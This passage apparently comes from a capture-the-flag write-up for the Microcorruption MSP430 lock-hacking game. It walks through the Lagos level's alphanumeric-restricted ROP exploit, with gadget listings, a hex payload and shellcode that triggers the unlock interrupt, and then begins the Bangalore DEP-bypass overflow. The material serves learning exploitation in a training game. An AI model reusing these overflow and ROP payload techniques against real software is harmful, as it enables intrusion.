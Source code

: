 ```

Now, we are allowed 0x200 bytes of input, so we have two choices:

* Inject code to perform the required job (`push 0x7f, call INT`)
  built only out of instructions with alphanumeric encodings.

* Return to a portion of the code (or possibly several ROP gadgets)
  that would allow us to perform this task.

Along the lines of the first , we have in [lagos/alphas](lagos/alphas)
a file containing most instructions with valid alphanumeric encodings.
Notably absent from these instructions are any instructions that let
us write to RAM.

So keeping this in mind, we'll look at the second approach.  We start
by searching in the most naive way possible for ROP gadgets.  We find,
among others:

```
cat lagos/code |grep -B 6 ret
...
4650 <getsn>
4650:  0e12           push	r14
4652:  0f12           push	r15
4654:  2312           push	#0x2
4656:  b012 fc45      call	#0x45fc <INT>
465a:  3150 0600      add	#0x6, sp
465e:  3041           ret
...
```

Ah!  So we can return to `getsn` and read more bytes, this time
without the alphanumeric restriction.  If we return to 0x4654 and we
set up the stack with the values specifying how many bytes to read and
where to read them to (in lieu of actually running the `push r14` and
`push r15` instructions), and then have the return address be the
address we read to, we should be golden.

Thus:

```
17 bytes of padding
0x4654: login return address
0x4430: where to read to
0x7a7a: how much to read
0x4430: getsn return address
```

That is:

```4141414141414141414141414141414141544630447a7a3044```

Then on the second prompt, we can put in the code we want to execute:

```30127f00b012fc45```

## 17. Bangalore

This challenge involves beating DEP.  It is a relatively
straightforward buffer overflow otherwise: We provide the input:

```AAAAAAAAAAAAAAAABBCCDDEEFFGG```

And observe that the `ret` instruction at 0x453c returns to 0x4242.
```